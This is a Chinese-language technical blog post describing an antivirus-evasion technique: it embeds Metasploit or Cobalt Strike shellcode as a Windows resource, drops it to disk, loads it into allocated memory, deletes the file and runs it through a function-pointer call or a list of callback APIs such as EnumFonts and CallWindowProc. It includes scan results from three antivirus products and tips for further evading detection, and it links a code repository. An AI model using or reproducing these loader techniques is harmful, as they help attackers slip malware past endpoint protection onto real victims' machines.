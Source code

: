 ```yaml
---
title: 资源分离免杀
tags: Bypass
---
```


## 起因

很多文章都写到了分离免杀，采用的方法是将 shellcode 和 执行函数分离，开辟内存空间复制 shellcode，然后执行函数执行。改进版就是远程加载，让木马去下载存储在远程服务器的 shellcode。

昨天看 BackStab 代码的时候，它有一个将 ProcEXP.sys 放入资源文件，加载驱动前写入到磁盘的操作。这种操作其实就可以替代远程加载，只需要上传一个 exe 文件，在读取 shellcode 前先在当前目录释放一个 bin 文件，文件内容复制到开辟好的内存空间后再删除该文件，随后调用执行函数执行。

## 过程

### 加载资源

首先肯定是添加资源，随便添加什么资源，到时候再改就好了

![image-20210629164331246](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095850.png)

在项目目录下新建一个 resources 文件夹，存上 MSF 或 CS 生成的 shellcode 文件：

![image-20210629164528797](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095855.png)

打开 资源文件(.rc)，用编辑方式打开：

![image-20210629164646700](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095853.png)

修改资源文件

```c
#include "resource.h"

IDR_SYS RCDATA "..\\resources\\1.bin"
```

同样 resource.h 也应该修改

```
#define IDR_SYS                      101
```

### 资源释放

释放资源有两步，首先要定位资源并得到资源的大小和内容，然后写入文件。

第一步需要用到 4 个 API：

```c
// 确定资源位置，获得资源句柄
HRSRC FindResourceA(
  HMODULE hModule,	// NULL 代表当前进程或模块
  LPCSTR  lpName,	// 资源名称，MAKEINTRESOURCE(ID)，这里就是 MAKEINTRESOURCE(101)
  LPCSTR  lpType	// 资源类型，这里是RT_RCDATA，Application-defined resource (raw data)
);

//指定的资源加载到内存当中，获得句柄
HGLOBAL LoadResource(
  HMODULE hModule,	// Null 代表当前进程或模块
  HRSRC   hResInfo	// 资源句柄
);

// 锁定内存中的资源，返回指向资源数据的内存指针
LPVOID LockResource(
  HGLOBAL hResData
);

// 资源大小
DWORD SizeofResource(
  HMODULE hModule,
  HRSRC   hResInfo
);
```

这样就可以获得内存中资源数据的指针和资源大小。

第二步就是新建和写入文件

```c
HANDLE CreateFileW(
  LPCWSTR               lpFileName,
  DWORD                 dwDesiredAccess,	// GENERIC_WRITE
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,	// FILE_ATTRIBUTE_NORMAL
  DWORD                 dwCreationDisposition,	// CREATE_ALWAYS
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);

BOOL WriteFile(
  HANDLE       hFile,
  LPCVOID      lpBuffer,	// LockResource 返回的指针
  DWORD        nNumberOfBytesToWrite,	// SizeofResource 返回的大小
  LPDWORD      lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

### 文件写入到内存并删除

将释放出来的文件写入到内存中，用的还是老方法，开辟内存空间后打开文件，用 ReadFile 读到开辟好的内存空间中

```c
//申请内存空间
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

//打开文件仍然用 CreateFileW，修改参数为打开并读取
CreateFileW("1.bin", GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL)

// 获取文件大小
DWORD GetFileSize(
  HANDLE  hFile,
  LPDWORD lpFileSizeHigh
);

// 读取文件到指定的缓冲器中
BOOL ReadFile(
  HANDLE       hFile,
  LPVOID       lpBuffer,	// 开辟的内存空间指针
  DWORD        nNumberOfBytesToRead,
  LPDWORD      lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

删除操作用的 DeleteFileW

```c
DeleteFileW(Path);
```

### 执行

执行的方法就很多了，经典执行：

```c
typedef void(__stdcall* CODE) ();
CODE code = (CODE)lpAddress;
code();
```
回调函数执行,[参考](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)：

```c
EnumFonts(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode, 0);

EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char *)shellcode, 0, 0);

LineDDA(10, 11, 12, 14, (LINEDDAPROC)(char *)shellcode, 0);

EnumFontFamilies(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode,0);

EnumDisplayMonitors((HDC)0,(LPCRECT)0,(MONITORENUMPROC)(char *)shellcode,(LPARAM)0);

GrayString(0, 0, (GRAYSTRINGPROC)(char *)shellcode, 1, 2, 3, 4, 5, 6);

CallWindowProc((WNDPROC)(char *)shellcode, (HWND)0, 0, 0, 0);

EnumResourceTypes(0, (ENUMRESTYPEPROC)(char *)shellcode, 0);
```

## 结果

杀软1检测：

![image-20210629174907927](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095902.png)

杀软2检测：

![image-20210629175207180](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095900.png)

杀软3检测：

![image-20210629180554436](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095905.png)

## 后续

更改远程连接的地址只需要在编译前替换 resources 文件夹下的 bin 文件即可。

这里用的是 msf 生成的默认 shellcode 文件，被杀软检测出具备 MSF 特征，只需要对这个 bin 做处理就可以了，还可以更换执行函数来绕过杀软的检测，根据查杀的情况不同修改。

代码地址：https://github.com/Ryze-T/Bypass_frames